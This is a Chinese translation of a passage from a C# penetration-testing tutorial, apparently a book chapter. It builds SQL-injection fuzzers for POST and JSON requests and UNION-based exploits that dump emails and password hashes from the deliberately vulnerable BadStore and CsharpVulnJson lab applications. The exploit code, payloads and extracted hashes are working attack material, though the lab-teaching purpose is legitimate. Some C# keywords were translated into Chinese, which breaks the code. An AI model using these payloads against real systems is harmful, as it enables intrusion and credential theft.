如清单 2-16 所示的请求是一个典型的带有 URL 编码参数的 POST 请求（这些参数是一组特殊字符，其中有些是空白字符，例如空格和换行符）。请注意，此请求使用加号（+）代替空格。将此请求保存到文本文件中。稍后我们将使用它来系统地模糊测试在 HTTP POST 请求中发送的参数。

注意

> HTTP POST 请求中的参数包含在请求的最后一行中，该行定义了以键/值形式发送的数据。（一些 POST 请求会发送多部分表单或其他特殊类型的数据，但基本原理是相同的。）

注意，在此请求中，我们正在将 ID 为 1000 和 1003 的项添加到购物车中。现在查看 Firefox 窗口，你应该会注意到这些数字对应于 ItemNum 列。我们正在提交一个参数，并附带这些 ID，实质上是在告诉应用程序如何处理我们发送的数据（即将这些项添加到购物车）。如你所见，唯一可能容易受到 SQL 注入攻击的参数是这两个 cartitem 参数，因为它们是服务器将解释的参数。

模糊测试开始

在我们开始模糊测试 POST 请求参数之前，我们需要设置一些数据，如 清单 2-17 所示。

> public static void Main(string[] args)
> 
> {
> 
> string[] requestLines = ➊File.ReadAllLines(args[0]);
> 
> ➋string[] parms = requestLines[requestLines.Length - 1].Split('&');
> 
> ➌string host = string.Empty;
> 
> StringBuilder requestBuilder = new ➍StringBuilder();
> 
> foreach (string ln in requestLines)
> 
> {
> 
> if (ln.StartsWith("Host:"))
> 
> host = ln.Split(' ')[1].➎Replace("\r", string.Empty);
> 
> requestBuilder.Append(ln + "\n");
> 
> }
> 
> string request = requestBuilder.ToString() + "\r\n";
> 
> Console.WriteLine(request);
> 
> }

清单 2-17：Main() 方法读取 POST 请求并存储 Host 头

我们使用 File.ReadAllLines() ➊ 从文件中读取请求，并将第一个参数传递给模糊测试应用程序，作为 ReadAllLines() 的参数。我们使用 ReadAllLines() 而不是 ReadAllText()，因为我们需要拆分请求以提取信息（即 Host 头），然后再进行模糊测试。在按行读取请求并将其存储到字符串数组中后，我们从文件的最后一行获取参数 ➋，然后声明两个变量。host 变量 ➌ 存储我们正在发送请求的主机的 IP 地址。接下来声明一个 System.Text.StringBuilder ➍，我们将使用它来构建完整的请求，作为一个单独的字符串。

注意

> 我们使用 StringBuilder，因为它比使用 += 操作符与基本字符串类型更高效（每次调用 += 操作符时，会在内存中创建一个新的字符串对象）。在处理这样的小文件时，你不会注意到差别，但当你处理大量字符串时，你就会发现。使用 StringBuilder 只会在内存中创建一个对象，从而大大减少内存开销。

现在，我们遍历先前读取的请求中的每一行。我们检查该行是否以 "Host:" 开头，如果是，就将主机字符串的第二部分分配给 host 变量。（这应该是一个 IP 地址。）然后我们调用 Replace() ➎ 方法，从字符串中删除尾部的 \r，这是某些 Mono 版本可能留下的，因为 IP 地址本身没有 \r。最后，我们将该行与 \r\n 一起附加到 StringBuilder 中。构建完整的请求后，我们将其分配给一个名为 request 的新字符串变量。（对于 HTTP，请求必须以 \r\n 结尾；否则，服务器响应将会挂起。）

模糊测试参数

现在我们有了完整的请求，可以开始遍历并尝试对参数进行 SQL 注入模糊测试。在这个循环中，我们将使用类 System.Net.Sockets.Socket 和 System.Net.IPEndPoint。因为我们已经有了完整的 HTTP 请求字符串，所以我们可以使用一个基本的 socket 与服务器通信，而不依赖 HTTP 库来为我们创建请求。现在我们拥有了进行服务器模糊测试所需的一切，如 示例 2-18 中所示。

> IPEndPoint rhost = ➊new IPEndPoint(IPAddress.Parse(host), 80);
> 
> foreach (string parm in parms)
> 
> {
> 
> 使用 (Socket sock = new ➋Socket(AddressFamily.InterNetwork,
> 
> SocketType.Stream, ProtocolType.Tcp))
> 
> {
> 
> sock.➌Connect (rhost);
> 
> string val = parm.➍Split('=')[1];
> 
> string req = request.➎Replace("=" + val, "=" + val + "'");
> 
> byte[] reqBytes = ➏Encoding.ASCII.GetBytes(req);
> 
> sock.➐Send(reqBytes);
> 
> byte[] buf = new byte[sock.ReceiveBufferSize];
> 
> sock.➑Receive(buf);
> 
> string response = ➒Encoding.ASCII.GetString(buf);
> 
> 如果（response.Contains("SQL 语法错误")）
> 
> Console.WriteLine("参数 " + parm + " 似乎存在漏洞");
> 
> Console.Write(" 用于 SQL 注入，值为：" + val + "'");
> 
> }
> 
> }

示例 2-18：向 Main() 方法中添加了用于模糊测试 POST 参数的额外代码

在示例 2-18 中，我们通过传递由 IPAddress.Parse(host) 返回的一个新的 IPAddress 对象和我们将要连接的 IP 地址上的端口（80）来创建一个新的 IPEndPoint 对象 ➊。现在我们可以遍历之前从 requestLines 变量中获取的参数。对于每次迭代，我们需要创建一个新的 Socket 连接 ➋ 到服务器，并使用 AddressFamily.InterNetwork 告诉 socket 它是 IPv4（即互联网协议的第 4 版，而不是 IPv6），并使用 SocketType.Stream 告诉 socket 这是一个流式 socket（有状态、双向、可靠）。我们还使用 ProtocolType.Tcp 告诉 socket 使用 TCP 协议。

一旦实例化了这个对象，我们可以通过传递我们的 IPEndPoint 对象 rhost 作为参数来调用 Connect() ➌。连接到远程主机的 80 端口后，我们可以开始模糊测试该参数。我们从 foreach 循环中通过等号（=）字符 ➍拆分参数，并使用数组的第二个索引值（来自方法调用的结果）提取该参数的值。然后我们在请求字符串上调用 Replace() ➎，将原始值替换为被污染的值。例如，如果我们的值是 'foo'，在参数字符串 'blah=foo&blergh=bar' 中，我们会将 foo 替换为 foo'（注意加在 foo 末尾的撇号）。

接下来，我们使用 Encoding.ASCII.GetBytes() ➏ 将字符串转换为字节数组，并通过 socket ➐ 将其发送到 IPEndPoint 构造函数中指定的服务器端口。这相当于从您的网页浏览器向地址栏中的 URL 发出请求。

在发送请求后，我们创建一个与我们将接收到的响应大小相等的字节数组，并使用 Receive() ➑将服务器的响应填充到该数组中。我们使用 Encoding.ASCII.GetString() ➒来获取字节数组所表示的字符串，然后可以解析服务器的响应。我们通过检查响应数据中是否包含预期的 SQL 错误信息来验证服务器的响应。

我们的模糊测试工具应该输出所有导致 SQL 错误的参数，如清单 2-19 所示。

> $ mono POST_fuzzer.exe /tmp/request
> 
> 参数 cartitem=1000 似乎容易受到 SQL 注入攻击，值为：1000'
> 
> 参数 cartitem=1003 似乎容易受到 SQL 注入攻击，值为：1003'
> 
> $

清单 2-19：运行 POST 模糊测试工具后的输出

正如我们在模糊测试工具的输出中看到的，cartitem HTTP 参数似乎容易受到 SQL 注入攻击。当我们在当前的 HTTP 参数值中插入单引号时，我们会在 HTTP 响应中得到一个 SQL 错误，这使得它很可能容易受到 SQL 注入攻击。

模糊测试 JSON

作为渗透测试人员或安全工程师，你可能会遇到接受某种形式的 JavaScript 对象表示法（JSON）数据的 Web 服务。为了帮助你学习如何模糊测试 JSON HTTP 请求，我编写了一个名为 CsharpVulnJson 的小型 Web 应用程序，它接受 JSON 并使用其中的信息来持久化和搜索与用户相关的数据。为了方便使用，已经创建了一个小型虚拟设备，使得 Web 服务开箱即用；它可以在 VulnHub 网站上找到（[`www.vulnhub.com/`](http://www.vulnhub.com/)）。

设置易受攻击的设备

CsharpVulnJson 以 OVA 文件格式提供，这是一个完全自包含的虚拟机档案，你可以直接将其导入你选择的虚拟化软件中。在大多数情况下，双击 OVA 文件应该会启动虚拟化软件，并自动导入该设备。

捕获易受攻击的 JSON 请求

一旦 CsharpVulnJson 运行，打开 Firefox 并指向虚拟机的 80 端口，你应该会看到一个类似于图 2-7 所示的用户管理界面。我们将专注于使用创建用户按钮创建用户以及该按钮在创建用户时发送的 HTTP 请求。

假设 Firefox 仍然设置为通过 Burp Suite 作为 HTTP 代理，填写创建用户字段并点击创建用户按钮，这将生成一个包含用户信息的 JSON 哈希的 HTTP 请求，该请求出现在 Burp Suite 的请求窗格中，如清单 2-20 所示。

图 2-7：在 Firefox 中打开的 CsharpVulnJson Web 应用程序

> POST /Vulnerable.ashx HTTP/1.1
> 
> Host: 192.168.1.56
> 
> User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:26.0) Gecko/20100101 Firefox/26.0
> 
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
> 
> Accept-Language: en-US,en;q=0.5
> 
> Accept-Encoding: gzip, deflate
> 
> Content-Type: application/json; charset=UTF-8
> 
> Referer: http://192.168.1.56/
> 
> Content-Length: 190
> 
> Cookie: ASP.NET_SessionId=5D14CBC0D339F3F054674D8B
> 
> Connection: keep-alive
> 
> Pragma: no-cache
> 
> Cache-Control: no-cache
> 
> {"username":"whatthebobby","password":"propane1","age":42,"line1":"123 Main St",
> 
> "line2":"","city":"Arlen","state":"TX","zip":78727,"first":"Hank","middle":"","last":"Hill",
> 
> "method":"create"}

示例 2-20：创建包含用户信息的 JSON 请求，将数据保存到数据库

现在右键单击请求窗格并选择复制到文件。当系统询问要将 HTTP 请求保存到计算机的哪里时，选择保存路径并记下保存位置，因为你需要将该路径传递给模糊器。

创建 JSON 模糊器

为了模糊化这个 HTTP 请求，我们需要将 JSON 与请求的其他部分分离。然后，我们需要遍历 JSON 中的每个键值对，并修改其值，以尝试从 Web 服务器诱发任何 SQL 错误。

阅读请求文件

为了创建 JSON HTTP 请求模糊器，我们从一个已知有效的 HTTP 请求（创建用户请求）开始。通过使用之前保存的 HTTP 请求，我们可以读取请求并开始模糊化过程，如示例 2-21 所示。

> public static void Main(string[] args)
> 
> {
> 
> string url = ➊args[0];
> 
> string requestFile = ➋args[1];
> 
> string[] request = null;
> 
> using (StreamReader rdr = ➌new StreamReader(File.➍OpenRead(requestFile)))
> 
> request = rdr.➎ReadToEnd().➏Split('\n');
> 
> string json = ➐request[request.Length - 1];
> 
> JObject obj = ➑JObject.Parse(json);
> 
> Console.WriteLine("正在对 URL " + url 进行 POST 请求模糊化");
> 
> ➒IterateAndFuzz(url, obj);
> 
> }

示例 2-21：Main 方法，启动 JSON 参数的模糊化过程

我们做的第一件事是将传递给模糊器的第一个➊和第二个➋参数存储到两个变量中（分别是 url 和 requestFile）。我们还声明一个字符串数组，该数组将在从文件系统读取请求后，赋值为 HTTP 请求中的数据。

在 using 语句的上下文中，我们使用 File.OpenRead() ➋打开请求文件以供读取，并将返回的文件流传递给 StreamReader 构造函数 ➌。通过实例化新的 StreamReader 类，我们可以使用 ReadToEnd()方法 ➎读取文件中的所有数据。然后，我们使用 Split()方法 ➏对请求文件中的数据进行拆分，并传递换行符作为拆分请求的字符。HTTP 协议规定，换行符（具体来说是回车符和换行符）用于将头信息与请求中发送的数据分开。Split()方法返回的字符串数组将赋值给我们之前声明的 request 变量。

在读取并拆分请求文件后，我们可以抓取需要进行模糊测试的 JSON 数据，并开始遍历 JSON 键值对以寻找 SQL 注入漏洞。我们想要的 JSON 是 HTTP 请求的最后一行，即请求数组中的最后一个元素。由于 0 是数组中的第一个元素，我们通过从请求数组长度中减去 1 来获取请求数组的最后一个元素，并将其值赋给字符串 json ➐。

一旦我们将 JSON 从 HTTP 请求中分离出来，我们就可以解析 json 字符串，并创建一个 JObject，使用 JObject.Parse() ➑ 以便进行编程遍历。JObject 类可以在 Json.NET 库中找到，该库可以通过 NuGet 包管理器或访问 [`www.newtonsoft.com/json/`](http://www.newtonsoft.com/json/) 免费获取。我们将在全书中使用这个库。

创建新 JObject 后，我们打印一行状态信息，通知用户我们正在向给定的 URL 发送 POST 请求进行模糊测试。最后，我们将 JObject 和 URL 传递给 IterateAndFuzz() 方法 ➒，以处理 JSON 并对 Web 应用程序进行模糊测试。

遍历 JSON 键值对

现在我们可以开始遍历每个 JSON 键值对，并设置每一对以测试是否存在 SQL 注入漏洞。列表 2-22 展示了如何使用 IterateAndFuzz() 方法来实现这一点。

> private static void IterateAndFuzz(string url, JObject obj)
> 
> {
> 
> foreach (var pair in (JObject)➊obj.DeepClone())
> 
> {
> 
> if (pair.Value.Type == ➋JTokenType.String || pair.Value.Type == ➌JTokenType.Integer)
> 
> {
> 
> Console.WriteLine("正在模糊测试键： " + pair.Key);
> 
> if (pair.Value.Type == JTokenType.Integer)
> 
> ➍Console.WriteLine("将 int 类型转换为字符串进行模糊测试");
> 
> JToken oldVal = ➎pair.Value;
> 
> obj[pair.Key] = ➏pair.Value.ToString() + "'";
> 
> if (➐Fuzz(url, obj.Root))
> 
> Console.WriteLine("SQL 注入向量： " + pair.Key);
> 
> else
> 
> Console.WriteLine(pair.Key + " 似乎没有漏洞。");
> 
> ➑obj[pair.Key] = oldVal;
> 
> }
> 
> }
> 
> }

列表 2-22：IterateAndFuzz() 方法，用于确定 JSON 中哪些键值对需要进行模糊测试

IterateAndFuzz() 方法通过在 JObject 中使用 foreach 循环遍历键/值对开始。因为我们将在 JSON 中插入撇号以修改值，所以我们调用 DeepClone() ➊ 来获取一个与原始对象相同的副本。这允许我们在修改另一个副本的同时，遍历 JSON 键/值对的一个副本。（我们需要复制一个副本，因为在 foreach 循环中，无法修改正在遍历的对象。）在 foreach 循环内，我们测试当前键/值对的值是否为 JTokenType.String ➋ 或 JTokenType.Integer ➌，如果是字符串或整数类型，我们将继续对该值进行模糊测试。打印一条消息 ➍ 来提醒用户我们正在模糊测试哪个键后，我们测试该值是否为整数，以便告知用户我们正在将值从整数转换为字符串。

注意

> 由于 JSON 中的整数没有引号，且必须是整数或浮点数，插入带有撇号的值会导致解析异常。许多用 Ruby on Rails 或 Python 构建的弱类型 Web 应用程序不会关心 JSON 值是否发生类型变化，但使用 Java 或 C# 构建的强类型 Web 应用程序可能不会按预期工作。CsharpVulnJson Web 应用程序不会关心类型是否故意改变。

接下来，我们将旧值存储在 oldVal 变量中 ➎，以便在对当前键/值对进行模糊测试后可以将其替换。在存储了旧值之后，我们重新赋值当前值 ➏ 为原始值，但在值的末尾加上一个撇号，这样如果它被放入 SQL 查询中，应该会导致解析异常。

为了确定修改后的值是否会导致 Web 应用程序出现错误，我们将修改后的 JSON 和 URL 传递给 Fuzz() 方法 ➐（将在接下来的讨论中介绍），该方法返回一个布尔值，告诉我们该 JSON 值是否可能容易受到 SQL 注入攻击。如果 Fuzz() 返回 true，我们会通知用户该值可能容易受到 SQL 注入攻击。如果 Fuzz() 返回 false，我们会告诉用户该键似乎不容易受到攻击。

一旦我们确定某个值是否容易受到 SQL 注入攻击，我们将用原始值 ➑ 替换被修改的 JSON 值，然后继续处理下一个键/值对。

使用 HTTP 请求进行模糊测试

最后，我们需要使用被污染的 JSON 值发起实际的 HTTP 请求，并从服务器读取响应，以确定该值是否可能存在注入风险。列表 2-23 显示了 Fuzz() 方法如何创建 HTTP 请求并测试响应中的特定字符串，以确定 JSON 值是否容易受到 SQL 注入攻击。

> private static bool Fuzz(string url, JToken obj)
> 
> {
> 
> byte[] data = System.Text.Encoding.ASCII.➊GetBytes(obj.➋ToString());
> 
> HttpWebRequest req = (HttpWebRequest)➌WebRequest.Create(url);
> 
> req.Method = "POST";
> 
> req.ContentLength = data.Length;
> 
> req.ContentType = "application/javascript";
> 
> 使用 (Stream stream = req.➍GetRequestStream())
> 
> stream.➎Write(data, 0, data.Length);
> 
> 尝试
> 
> {
> 
> req.➏GetResponse();
> 
> }
> 
> 捕获 (WebException e)
> 
> {
> 
> 字符串 resp = string.Empty;
> 
> 使用 (StreamReader r = new StreamReader(e.Response.➐GetResponseStream()))
> 
> resp = r.➑ReadToEnd();
> 
> 返回 (resp.➒Contains("syntax error") || resp.➓Contains("unterminated"));
> 
> }
> 
> 返回 false;
> 
> }

示例 2-23：Fuzz() 方法，它执行与服务器的实际通信

因为我们需要将整个 JSON 字符串作为字节发送，我们将通过 ToString() ➋ 方法返回的 JObject 字符串版本传递给 GetBytes() ➊ 方法，该方法返回一个表示 JSON 字符串的字节数组。我们还通过调用 WebRequest 类的静态 Create() 方法 ➌ 来构建初始 HTTP 请求，以创建一个新的 WebRequest，并将结果对象强制转换为 HttpWebRequest 类。接下来，我们为请求分配 HTTP 方法、内容长度和内容类型。我们将 Method 属性的值设置为 POST，因为默认值是 GET，并将我们要发送的字节数组的长度分配给 ContentLength 属性。最后，我们将 ContentType 设置为 application/javascript，以确保 Web 服务器知道它接收到的数据应该是格式良好的 JSON。

现在我们将我们的 JSON 数据写入请求流中。我们调用 GetRequestStream() 方法 ➍ 并将返回的流分配给一个变量，并使用 using 语句来确保在使用后流被正确地释放。然后，我们调用流的 Write() 方法 ➎，该方法接受三个参数：包含 JSON 数据的字节数组、我们希望开始写入的数组索引，以及我们希望写入的字节数。（因为我们希望写入所有数据，所以传入数据数组的整个长度。）为了从服务器获取响应，我们创建一个 try 块，以便捕获任何异常并获取它们的响应。我们在 try 块内调用 GetResponse() ➏ 尝试从服务器获取响应，但我们只关心返回 HTTP 状态码为 500 或更高的响应，这将导致 GetResponse() 抛出异常。

为了捕获这些响应，我们在 try 块后跟一个 catch 块，在其中我们调用 GetResponseStream() ➐ 并从返回的流创建一个新的 StreamReader。使用流的 ReadToEnd() 方法 ➑，我们将服务器的响应存储在字符串变量 resp 中（该变量在 try 块开始之前声明）。

为了确定发送的值是否可能导致 SQL 错误，我们测试响应中是否包含 SQL 错误中出现的两个已知字符串之一。第一个字符串 "syntax error" ➒ 是一个通用字符串，在 MySQL 错误中出现，如示例 2-24 所示。

> 错误：42601：语法错误，在 &quot;dsa&quot; 附近 示例 2-24：包含语法错误的 MySQL 错误消息

第二个字符串 "unterminated" ➓，出现在特定的 MySQL 错误中，当字符串没有结束时，如示例 2-25 所示。

> 错误：42601：在 "'); " 附近出现了未结束的引号字符串

示例 2-25：包含 unterminated 的 MySQL 错误消息示例

任何错误消息的出现都可能意味着应用程序中存在 SQL 注入漏洞。如果错误响应中包含了这两种字符串中的任意一种，我们就返回一个 true 值给调用方法，这意味着我们认为该应用程序易受攻击。否则，我们返回 false。

测试 JSON 模糊测试器

完成了模糊测试 HTTP JSON 请求所需的三种方法后，我们可以测试 Create User HTTP 请求，如示例 2-26 所示。

> $ fuzzer.exe http://192.168.1.56/Vulnerable.ashx /Users/bperry/req_vulnjson
> 
> 对 URL http://192.168.1.13/Vulnerable.ashx 进行 POST 请求模糊测试
> 
> Fuzzing 键：username
> 
> SQL 注入向量：username
> 
> Fuzzing 键：password
> 
> SQL 注入向量：password
> 
> Fuzzing 键：age➊
> 
> 将 int 类型转换为字符串进行模糊测试
> 
> SQL 注入向量：age
> 
> Fuzzing 键：line1
> 
> SQL 注入向量：line1
> 
> Fuzzing 键：line2
> 
> SQL 注入向量：line2
> 
> Fuzzing 键：city
> 
> SQL 注入向量：city
> 
> Fuzzing 键：state
> 
> SQL 注入向量：state
> 
> Fuzzing 键：zip➋
> 
> 将 int 类型转换为字符串进行模糊测试
> 
> SQL 注入向量：zip
> 
> Fuzzing 键：first
> 
> first 似乎不易受到攻击。
> 
> Fuzzing 键：middle
> 
> middle 似乎不易受到攻击。
> 
> Fuzzing 键：last
> 
> last 似乎不易受到攻击。
> 
> Fuzzing 键：method➌
> 
> method 似乎不易受到攻击。

示例 2-26：运行 JSON 模糊测试器对 CsharpVulnJson 应用程序进行测试的输出

在 Create User 请求上运行模糊测试器应该显示大多数参数都容易受到 SQL 注入攻击（以 SQL 注入向量开头的行），除了由 Web 应用程序用于确定完成哪个操作的方法 JSON 键 ➌。请注意，即使是原本是整数的 age ➊ 和 zip ➋ 参数，在测试时如果转换为字符串，它们也会变得易受攻击。

利用 SQL 注入

寻找可能的 SQL 注入仅是渗透测试的一半工作；利用它们才是更重要且更难的部分。在本章前面，我们使用 BadStore 的 URL 来模糊测试 HTTP 查询字符串参数，其中一个参数是易受攻击的查询字符串参数 searchquery（请参见示例 2-13 中的内容，第 25 页）。searchquery 查询字符串参数容易受到两种类型的 SQL 注入攻击。这两种注入方式（基于布尔值和基于 UNION）都非常有用，因此我将描述如何为这两种类型编写利用代码，使用相同的易受攻击的 BadStore URL。

UNION 技术是在利用 SQL 注入时最容易使用的一种方法。当你能够控制 SQL 查询的结尾时，可以在 SELECT 查询注入中使用 UNION。攻击者如果能够将 UNION 语句附加到 SELECT 语句的末尾，就可以向 Web 应用程序返回比程序员原本预期的更多的数据行。

理解 UNION 注入最棘手的部分之一是平衡列数。从本质上讲，你必须平衡 UNION 子句中的列数与原始 SELECT 语句从数据库中返回的列数相同。另一个挑战是能够编程地确定你注入的结果出现在 Web 服务器的响应中的位置。

手动执行基于 UNION 的漏洞利用

使用基于 UNION 的 SQL 注入是从数据库中检索数据的最快方法。为了通过这种技术从数据库中检索攻击者控制的数据，我们必须构建一个负载，检索与 Web 应用程序中原始 SQL 查询相同数量的列。一旦我们能够平衡列数，就需要能够程序化地从 HTTP 响应中找到来自数据库的数据。

当试图平衡 UNION 可注入 SQL 注入中的列数时，如果列数不匹配，Web 应用程序（使用 MySQL）通常会返回类似列表 2-27 所示的错误。

> 使用的 SELECT 语句列数不同...

列表 2-27：当 UNION 左右两边的 SELECT 查询列数不平衡时，MySQL 返回的示例错误

让我们看一下 BadStore Web 应用程序中的漏洞代码行（badstore.cgi，第 203 行），看看它选择了多少列（参见列表 2-28）。

> $sql="SELECT itemnum, sdesc, ldesc, price FROM itemdb WHERE '$squery' IN (itemnum,sdesc,ldesc)"; 列表 2-28：BadStore Web 应用程序中的漏洞代码行，选择四列

平衡 SELECT 语句需要一些测试，但我从阅读 BadStore 的源代码中知道，这个特定的 SELECT 查询返回四列。当我们传递带有空格并用加号 URL 编码的负载时，如列表 2-29 所示，我们发现"hacked"一词作为一行出现在搜索结果中。

> searchquery=fdas'+UNION+ALL+SELECT+NULL, NULL, 'hacked', NULL%23

列表 2-29：正确平衡的 SQL 注入，成功从数据库中返回"hacked"一词

当这个负载中的 searchquery 值传递给应用程序时，searchquery 变量直接用于发送到数据库的 SQL 查询中，我们将原始 SQL 查询（列表 2-28）转变为一个原始程序员未曾预期的新 SQL 查询，如列表 2-30 所示。

> SELECT itemnum, sdesc, ldesc, price FROM itemdb WHERE 'fdas' UNION ALL SELECT
> 
> NULL, NULL, 'hacked', NULL➊# ' IN (itemnum,sdesc,ldesc) 列表 2-30：完整的 SQL 查询，附加负载后返回"hacked"一词

我们使用哈希标记 ➊ 来截断原始 SQL 查询，将任何在有效负载后面的 SQL 代码转化为 MySQL 不会执行的注释。现在，任何额外的数据（在此案例中是"hacked"）应该出现在 UNION 的第三列中，以便返回到 Web 服务器的响应中。

人类通常可以很容易地确定有效负载返回的数据在 Web 页面中的显示位置。然而，计算机需要被告知在哪里查找从 SQL 注入攻击中带回的数据。程序化地检测攻击者控制的数据在服务器响应中的位置可能是困难的。为了简化这一过程，我们可以使用 CONCAT SQL 函数，将我们真正关心的数据用已知的标记包围，如列表 2-31 所示。

> searchquery=fdsa'+UNION+ALL+SELECT+NULL, NULL, CONCAT(0x71766a7a71,'hacked',0x716b626b71), NULL#

列表 2-31：返回"hacked"单词的 searchquery 参数的示例有效负载

列表 2-31 中的有效负载使用十六进制值在我们通过有效负载选择的额外值"hacked"的左右添加数据。如果有效负载在 Web 应用程序的 HTML 中回显，正则表达式就不会意外地匹配原始有效负载。在这个例子中，0x71766a7a71 是 qvjzq，0x716b626b71 是 qkbkq。如果注入成功，响应应该包含 qvjzqhackedqkbkq。如果注入失败，且搜索结果按原样回显，像 qvjzq(.*)qkbkq 这样的正则表达式将无法匹配原始有效负载中的十六进制值。MySQL 的 CONCAT()函数是确保我们能够从 Web 服务器响应中抓取正确数据的一个便捷方法。

列表 2-32 显示了一个更有用的示例。在这里，我们可以替换先前有效负载中的 CONCAT()函数，以返回当前数据库，数据库名会被已知的左右标记包围。

> CONCAT(0x7176627a71, DATABASE(), 0x71766b7671) 列表 2-32：返回当前数据库名称的示例有效负载

在 BadStore 搜索功能上的注入结果应该是 qvbzqbadstoredbqvkvq。一个正则表达式，如 qvbzq(.*)qvkvq，应该返回 badstoredb 的值，即当前数据库的名称。

现在我们知道如何有效地从数据库中提取值，我们可以开始使用 UNION 注入从当前数据库中抽取数据。在大多数 Web 应用程序中，一个特别有用的表是用户表。正如在列表 2-33 中看到的，我们可以很容易地使用先前描述的 UNION 注入技术，通过一次请求和有效负载来枚举用户及其密码哈希，数据来自用户表（称为 userdb）。

> searchquery=fdas'+UNION+ALL+SELECT+NULL, NULL, CONCAT(0x716b717671, email,
> 
> 0x776872786573, passwd,0x71767a7a71), NULL+FROM+badstoredb.userdb#

列表 2-33：此有效负载从 BadStore 数据库中提取电子邮件和密码，并用左右分隔符进行分隔。

如果注入成功，结果应在网页中的项目表格中显示出来。

以编程方式执行基于 UNION 的漏洞利用

现在，让我们看看如何通过一些 C# 代码和 HTTP 类来以编程方式执行此漏洞利用。通过将清单 2-33 中显示的负载放入 searchquery 参数，我们应该能在网页中看到一个包含用户名和密码哈希值的项目表格，而不是任何真实的项目。我们只需要发送一个 HTTP 请求，然后使用正则表达式从 HTTP 服务器的响应中提取位于标记之间的电子邮件和密码哈希。

创建标记以查找用户名和密码

首先，我们需要创建正则表达式的标记，如清单 2-34 所示。这些标记将用于在 SQL 注入过程中界定从数据库中获取的值。我们希望使用一些看起来是随机的字符串，这样它们在 HTML 源代码中不太可能找到，从而使我们的正则表达式只抓取我们想要的用户名和密码哈希，而不会抓取其他内容。

> string frontMarker = ➊"FrOnTMaRker";
> 
> string middleMarker = ➋"mIdDlEMaRker";
> 
> string endMarker = ➌"eNdMaRker";
> 
> string frontHex = string.➍Join("", frontMarker.➎Select(c => ((int)c).ToString("X2")));
> 
> string middleHex = string.Join("", middleMarker.Select(c => ((int)c).ToString("X2")));
> 
> string endHex = string.Join("", endMarker.Select(c => ((int)c).ToString("X2"))); 清单 2-34：创建用于 UNION 型 SQL 注入负载的标记

首先，我们创建三个字符串，分别作为前部 ➊、中部 ➋ 和尾部 ➌ 标记。这些标记将用于查找并分隔我们从数据库中获取的用户名和密码，它们会出现在 HTTP 响应中。我们还需要创建这些标记的十六进制表示，这将用于负载中。为此，每个标记需要稍微处理一下。

我们使用 LINQ 方法 Select() ➎ 来迭代标记字符串中的每个字符，将每个字符转换为其十六进制表示形式，并返回处理后的数据数组。在这个例子中，它返回一个包含 2 字节字符串的数组，每个字符串都是原始标记中一个字符的十六进制表示。

为了从这个数组中创建一个完整的十六进制字符串，我们使用 Join() 方法 ➍ 来将数组中的每个元素连接起来，从而生成一个表示每个标记的十六进制字符串。

构建带有负载的 URL

现在，我们需要构建 URL 和负载来发送 HTTP 请求，如清单 2-35 所示。

> string url = ➊"http://" + ➋args[0] + "/cgi-bin/badstore.cgi";
> 
> string payload = "fdsa' UNION ALL SELECT";
> 
> payload += " NULL, NULL, NULL, CONCAT(0x"+frontHex+", IFNULL(CAST(email AS";
> 
> payload += " CHAR), 0x20),0x"+middleHex+", IFNULL(CAST(passwd AS";
> 
> payload += " CHAR), 0x20), 0x"+endHex+") FROM badstoredb.userdb# ";
> 
> url += ➌"?searchquery=" + Uri.➍EscapeUriString(payload) + "&action=search"; 列表 2-35: 在漏洞利用的 Main() 方法中构建带有载荷的 URL

我们创建了 URL ➊ 来发起请求，使用了漏洞利用的第一个参数 ➋：BadStore 实例的 IP 地址。一旦创建了基本的 URL，我们就构建了一个载荷，用来从数据库中返回用户名和密码哈希，其中包括我们用来分隔用户名和密码的三个十六进制字符串。正如前面所述，我们将标记编码为十六进制，以确保在标记被回显而没有我们想要的数据时，我们的正则表达式不会错误地匹配它们并返回垃圾数据。最后，我们通过将易受攻击的查询字符串参数与载荷附加到基本 URL 上，来组合载荷和 URL ➌。为了确保载荷不包含任何 HTTP 协议特有的字符，我们将载荷传递给 EscapeUriString() ➍，然后再将其插入查询字符串中。

发起 HTTP 请求

我们现在准备好发起请求并接收包含从数据库中提取的用户名和密码哈希的 HTTP 响应，数据是通过 SQL 注入载荷获得的（见 列表 2-36）。

> HttpWebRequest request = (HttpWebRequest)WebRequest.➊Create(url);
> 
> string response = string.Empty;
> 
> 使用 (StreamReader reader = ➋new StreamReader(request.GetResponse().GetResponseStream()))
> 
> response = reader.➌ReadToEnd(); 列表 2-36: 创建 HTTP 请求并读取服务器的响应

我们通过创建一个新的 HttpWebRequest ➊，并使用我们之前构建的包含 SQL 注入载荷的 URL，来创建一个基本的 GET 请求。然后我们声明一个字符串来保存响应，默认将其赋为空字符串。在使用语句的上下文中，我们实例化一个 StreamReader ➋ 并将响应 ➌ 读取到我们的响应字符串中。现在我们已经获得了服务器的响应，我们可以使用我们的标记创建一个正则表达式，按照 列表 2-37 的示例，在 HTTP 响应中查找用户名和密码。

> Regex payloadRegex = ➊new Regex(frontMarker + "(.*?)" + middleMarker + "(.*?)" + endMarker);
> 
> MatchCollection matches = payloadRegex.➋Matches(response);
> 
> foreach (Match match in matches)
> 
> {
> 
> Console.➌WriteLine("用户名: " + match.➍Groups[1].Value + "\t ");
> 
> Console.Write("密码哈希: " + match.➎Groups[2].Value);
> 
> }
> 
> }

列表 2-37: 使用正则表达式匹配服务器响应，以提取数据库值

在这里，我们从 HTTP 响应中查找并打印通过 SQL 注入获取的值。首先，我们使用 Regex 类 ➊（位于命名空间 System.Text.RegularExpressions 中）创建一个正则表达式。该正则表达式包含两个表达式组，通过先前定义的前、中、后标记来捕获用户名和密码哈希值。然后我们调用正则表达式的 Matches() 方法 ➋，并将响应数据作为参数传递给 Matches() 方法。Matches() 方法返回一个 MatchCollection 对象，我们可以使用 foreach 循环遍历它，检索每个与我们之前创建的正则表达式匹配的响应字符串。

当我们遍历每个表达式匹配时，我们打印用户名和密码哈希。通过使用 WriteLine() 方法 ➌ 打印这些值，我们构建一个字符串，使用正则表达式组捕获的用户名 ➍ 和密码 ➎，这些值存储在表达式匹配的 Groups 属性中。

运行利用代码后，应当得到 示例 2-38 中显示的输出。

> 用户名：AAA_Test_User 密码哈希：098F6BCD4621D373CADE4E832627B4F6
> 
> 用户名：admin 密码哈希：5EBE2294ECD0E0F08EAB7690D2A6EE69
> 
> 用户名：joe@supplier.com 密码哈希：62072d95acb588c7ee9d6fa0c6c85155
> 
> 用户名：big@spender.com 密码哈希：9726255eec083aa56dc0449a21b33190
> 
> --snip--
> 
